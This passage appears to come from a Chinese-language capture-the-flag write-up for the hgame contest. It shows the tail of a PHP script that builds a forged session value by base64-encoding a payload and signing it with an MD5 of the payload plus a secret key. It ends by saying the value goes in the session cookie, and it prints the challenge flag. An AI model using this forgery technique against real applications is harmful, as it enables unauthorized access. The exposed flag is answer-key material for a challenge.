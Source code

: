 		    echo $key;
		    echo '<br/>';
		    $value = base64_encode($payload) . "." . $sign;
		    $sess_array = explode(".", $value);
		    echo '<br/>';
		    echo base64_decode($sess_array[0]);
		    echo '<br/>';
		    echo base64_decode($sess_array[1]);
		    echo '<br/>';
            $a = base64_decode($sess_array[0]);
            $b = base64_decode($sess_array[1]);
		    if($b === md5($a . self::SECRET_KEY)){
		    	echo "success";
		    	echo '<br/>';
		    }
		    echo $value;
	     }
     }
     $a=new test();
    ?> 

脚本比较啰嗦，懒得改了。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210217123207.png)

将得到的payload放到session里面发送即可得到flag

    hgame{XI-4Nd-n!AN-D0e5Nt_eX|5T~4t_ALL}